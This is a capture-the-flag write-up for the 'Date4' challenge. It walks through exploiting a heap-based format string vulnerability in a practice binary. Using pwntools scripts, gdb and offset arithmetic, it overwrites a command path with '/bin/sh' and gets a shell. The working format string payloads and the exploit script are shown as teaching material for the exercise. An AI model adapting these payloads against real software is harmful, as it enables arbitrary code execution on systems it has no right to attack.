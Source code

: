 # Date4

```
Description
Format strings are easy to exploit right?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see we have again a format string vuln, but now its not on the stack but on the heap. We can also see that `date_path` is now in the `.data` section.
So now we cant write `/bin/sh` with the format string to `date_path` as we did in `date2`. We cant find our offset, but the printf is still printing values from the stack.

So what we need to do is similar to [this](https://anee.me/format-string-exploits-when-buffer-is-not-on-the-stack-f7c83e1a6781). So lets find an address pointing to another address on the stack, 
with that we first write the `date_path` address to the first stack address, then with the second write we write `/bin/sh`. 
We set a breakpoint after printf and check the stack:

![img](images/gdb.jpg)

So we can see the first value is pointing to an other address on the stack. The blue square is pointing to our heap. We can find the offset of the first value at the 6th position with gdb(run the program in gdb with the breakpoint and send `%6$p` and check the stack) 
As we can read [here](https://cor.team/posts/Zh3r0-CTF-V2---All-Pwnable-Writeups):

```
First, when something of the %offset$specifier notation is encountered, the value is cached in args_value in printf_positional so it will not reference the stack upon the next encounter.
```

So we cant use positional arguments `%offset$specifier` at the first write because of the caching issue. What we can do is like sending `x` offset times till we are at the position we want to be.
So lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%30x"
payload += b"%n"

write("payload", payload)

io.interactive()
```

We run this and it will create a payload file in the same directory, lets use it in gdb. As we can see:

```py
payload = b"%x" * 4 # means %x %x %x %x equals %4$specifier
payload += b"%30x" # 5th offset
payload += b"%n" # here we are at the 6th offset as we want
```

So lets run in gdb(`r < payload`), this time we set a breakpoint before and after printf and check the stack
We hit our first breakpoint, lets check the stack:

![img](images/gdb1.jpg)

Nothing changed, lets continue:

![img](images/gdb2.jpg)

We see its changed to 0x35. So lets calculate the amount of bytes we need to write. `date_path` is at `0x404080`. Pie is disabled so no worries for changes. 
We can see that if we write 30 bytes, we get 0x35. So lets calculate in python:


![img](images/py.jpg)

We substract 30 from 53 because thats the padding we used. Then we substract the value from the address we want to write. So lets change our script:

```py
payload = b"%x" * 4
payload += b"%4210793x"
payload += b"%n"
```

Lets run it and use it in gdb again(same breakpoints)
Continue after the first breakpoint an check the stack:

![img](images/gdb3.jpg)

So we succesfully wrote the `date_path` address to that location, so now with our second write we can use positional arguments.
So what we want to write now is `/bin/sh` to `date_path`. But in `date_path` there is already `usr/bin/` so we can just overwrite `date` with `/sh`(`/usr/bin//sh` doesnt matter and will run as normally, try locally). Lets check the address we want to overwrite.
We can set values in gdb:

![img](images/gdb4.jpg)

We can find the offset of the second address that we changed manually. Its the `38th` position.
So lets change our payload again. We want to write `0x0068732f` to `0x404089`. We also need to change our first payload because we wrote `0x404080`(just add `9`). 

So if we change it to:

```py
payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%30x%38$n"
```

And run it again and check what we wrote:

![img](images/gdb5.jpg)

So we can calculate it again, like we did before:

![img](images/py1.jpg)

So changed `30` to `2634406` and run again:

![img](images/gdb6.jpg)

And we can see we succesfully wrote what we want.
If we run it outside of gdb, we can see it wont work and differs slighly:

![img](images/error.jpg)

So lets debug with our script in gdb:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
b *main+134
b *main+139
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%2634406x%38$n"

io.sendlineafter(b'date?\n', payload)

io.interactive()
```

`python3 exploit.py GDB`

It will open an extra tab with gdb. Lets continue 2 times till we hit the second breakpoint, and check the stack:

![img](images/gdb7.jpg)

We can see here, its not the address we want. Its `0xa` at the end and we want `0x9` so 1 number too much. So we substract 1 from `4210802` in our script, and run it again:

![img](images/gdb7.jpg)

We can see everything is correct now, so lets continue:

![img](images/local.jpg)

And we got our shell locally, lets try to run remotely:

![img](images/flag.jpg)

and we got our shell and flag. Really cool chall, learnt some new stuff!
